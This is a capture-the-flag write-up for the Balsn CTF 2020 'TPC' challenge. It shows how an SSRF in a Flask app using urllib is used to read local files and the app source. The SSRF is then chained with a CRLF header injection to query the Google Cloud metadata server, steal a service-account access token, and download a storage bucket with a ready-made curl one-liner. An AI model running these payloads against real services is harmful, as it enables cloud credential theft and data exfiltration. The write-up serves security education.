 ## TPC

by TnMch



By checking the url givng `http://35.194.175.80:8000/` we found a printed text that mentions the entry point for this challenge

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/99299251-40d08e00-284b-11eb-819a-09db889acbb9.png" alt="main" >

sending `file:///etc/passwd` as a **site** argument gives us the content for  `/etc/passwd`

```
view-source:http://35.194.175.80:8000/query?site=file:///etc/passwd
```

<img src="https://user-images.githubusercontent.com/7364615/99298929-c7d13680-284a-11eb-8d4b-23d495400e72.png" alt="etc_passwd" style="zoom: 67%;" />

So its **SSRF** ( Server-side request forgery ), if we send `file:///proc/self/cmdline` we get the command line which include python file name `main-dc1e2f5f7a4f359bb5ce1317a`.py

```
/usr/local/bin/python/usr/local/bin/gunicorn main-dc1e2f5f7a4f359bb5ce1317a:app--bind0.0.0.0:8000--workers5--worker-tmp-dir/dev/shm--worker-classgevent--access-logfile---error-logfile-
```

 And finally read the source code http://35.194.175.80:8000/query?site=file:///opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py`

```
import urllib.request

from flask import Flask, request

app = Flask(__name__)


@app.route("/query")
def query():
    site = request.args.get('site')
    text = urllib.request.urlopen(site).read()
    return text


@app.route("/")
def hello_world():
    return "/query?site=[your website]"


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=8000)
```



Simple code, if we read more on `urllib` we can find it vulnerable to **CRLF** : https://bugs.python.org/issue35906 (CVE-2019-9947)

And if we check `file:///etc/hosts` we find 

```
169.254.169.254 metadata.google.internal metadata
```

So we can read google cloud metadata using **SSRF** chained with **CRLF** 

```
curl -v 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20'
```

As output we have 

```
attributes/
cpu-platform
description
disks/
guest-attributes/
hostname
id
image
legacy-endpoint-access/
licenses/
machine-type
maintenance-event
name
network-interfaces/
preempted
remaining-cpu-time
scheduling/
service-accounts/
tags
virtual-clock/
zone
```



We just next get access token , find out that we have access to storage **devstorage.read_only**

```
{
  "issued_to": "102193360015934362205",
  "audience": "102193360015934362205",
  "scope": "https://www.googleapis.com/auth/trace.append https://www.googleapis.com/auth/monitoring.write https://www.googleapis.com/auth/service.management.readonly https://www.googleapis.com/auth/servicecontrol https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_only",
  "expires_in": 2844,
  "access_type": "online"
}
```

Reading **access_token**

```
curl -s 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20'
```

And to read all `asia.artifacts.balsn-ctf-2020-tpc.appspot.com` bucket data

We have full cmd to just process all this steps :

```
mkdir out && access_token=$(curl -s 'http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP%2F1.1%0D%0AMetadata-Flavor:%20Google%0D%0Alol:%20' | jq -r '.access_token') && curl -s 'https://www.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o?access_token='$access_token | jq -r '.items[].name' | while read obj;do curl -s -X GET -H 'Authorization: Bearer '$access_token https://storage.googleapis.com/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/{$obj} --output out/output_$(echo $obj | cut -d ':' -f 2)  ;done && cd out && for i in $(ls); do mkdir files;tar -xvf $i -C files/ ;done && grep -r "BALSN" files/opt
```

And we just got the flag in the `/opt/workdir` directory

```
BALSN{What_permissions_does_the_service_account_need}
```
